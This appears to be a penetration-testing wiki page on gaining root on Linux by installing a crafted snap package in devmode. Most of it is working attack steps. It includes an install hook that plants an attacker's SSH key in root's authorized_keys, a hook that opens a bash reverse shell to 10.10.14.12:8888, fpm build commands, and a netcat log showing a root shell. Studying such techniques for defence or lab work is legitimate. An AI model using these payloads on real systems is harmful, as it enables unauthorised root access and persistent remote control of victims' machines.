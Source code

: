 ```yaml
---
description: Snap is a package manager that packages and deploys applications.
---
```


# Snap package (PE)

### What is it?

Snaps is similar to `apt` , they are self-contained applications that run in a sandboxed environment, while limiting acess to the host system. However when running in `dev mode` which makes it interesting for potential privilege escalation.

> When installing a snap, snap uses a hook which is called the "install hook". This hook when executed in dev mode will give snap elevated privileges.

### Escalating privileges using Snapcraft

Start by installing snapd and snapcraft.

```bash
sudo apt update
sudo apt install snapd
sudo snap install --classic snapcraft
```

Make directory to work in, initialize and setup the install hook

```bash
# Make an empty directory to work with
mkdir new_snap
cd new_snap

# Initialize the directory as a snap project
snapcraft init

# Set up the install hook
mkdir snap/hooks
touch snap/hooks/install
chmod a+x snap/hooks/install
```

Then write a bash script we can run as root. We generate a SSH key pair on our local VM and copy the public key to the target.

```bash
cat > snap/hooks/install << "EOF"
#!/bin/bash

mkdir -p /root/.ssh
echo "ssh-rsa AAAAB3NzaC1ycHXJcjXrbJxx zn@zn" > /root/.ssh/authorized_keys
EOF

```

Edit the yaml file or if you have trouble making the snap package, try changing the base to core22 or core20 in the yaml file.

```bash
name: my-snap-name 
base: core24 
version: '0.1' 
summary: Single-line elevator pitch for your amazing snap 
description: |
  This is my-snap's description. You have a paragraph or two to tell the
  most important story about your snap. Keep it under 100 words though,
  we live in tweetspace and your description wants to look good in the snap
  store.

grade: devel 
confinement: devmode 

parts:
  my-part:
    
    plugin: nil
```

After this you can run `snapcraft` and create the package, it wil create a snap file.

{% embed url="https://snapcraft.io/docs/create-a-new-snap" %}

We then copy the created snap file to the target either via a http server or using ssh and scp and run the snap file which will give acces via ssh.

```bash
# upload snap file
scp my-snap-name_0.1_amd64.snap user@10.10.10.14:/tmp

# run snap file and get ssh acces.
sudo snap install xxxx_1.0_all.snap --devmode --dangerou
```

### GTFObins method

Another easier and shorter way is to use the method from GTFO.

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

#### For this method you need to install

```bash
apt-get install ruby ruby-dev rubygems build-essential
gem install --no-document fpm
gem install fpm
```

And then execute the exploit

{% code overflow="wrap" %}
```bash
# Create directory
mkdir -p meta/hooks

# Insert payload 
printf '#!/bin/sh\n%s; false' "bash -i >& /dev/tcp/10.10.14.12/8888 0>&1" >meta/hooks/install

# Make file executable
chmod +x meta/hooks/install

# Create the snap file
fpm -n xxxx -s dir -t snap -a all meta

# Install snap package on target
sudo snap install xxxx_1.0_all.snap --dangerous --devmode
```
{% endcode %}

We got root shell:

```bash
$ nc -lvnp 8888                                        
listening on [any] 8888 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.233] 55368
bash-4.3# whoami
whoami
root
```

